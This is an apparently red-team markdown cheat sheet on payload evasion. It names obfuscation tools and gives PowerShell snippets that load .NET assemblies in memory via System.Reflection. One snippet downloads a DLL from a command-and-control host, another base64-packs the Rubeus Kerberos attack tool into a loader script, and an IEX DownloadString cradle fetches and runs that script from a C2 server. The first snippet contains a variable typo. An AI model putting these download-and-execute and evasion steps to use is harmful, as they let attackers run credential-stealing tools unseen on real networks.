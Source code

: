 # Payload Evasion Tips & Devops

## Tools
* [OffensivePipeline](https://github.com/aetsu/OffensivePipeline)
* [ConfuserEx](https://github.com/mkaring/ConfuserEx)
* [PowerStrip](http://github.com/Yoda66/PowerStrip)

---
## Loading via System Reflection Assembly[^1]
### Load DLL
```
$w = new-object system.net.webclient
$p = w$.Downloaddata("https://c2.domain.com/dllfile")
[system.reflection.assembly]::Load($p)
$a = new-object namespace.class
$a.method()
```

### Example: Rubeus[^2]
* Convert Exe file to Base64 via powershell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
```
* Create a `ps1` file (i.e. *rubeus.ps1*) with the contents below but replace the `<BASE64dRubeus>` with the base64 output of the command above (`rubeus.txt`)
    * This step will save a lot of time rather than executing the base64 output directly and pasting a lot of characters to your (remote) powershell terminal.
```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("<BASE64dRubeus>"))
```
* Download via your c2
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("https://<c2>:443/rubeus.ps1")
```

[^1]: [Move Aside Script Kiddies–Malware Execution in the Age of Advanced Defenses | Joff Thyer ](https://www.youtube.com/watch?v=wTmQ5FaRmf4)
[^2]: [Github - Ghostpack - Rubeus](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)

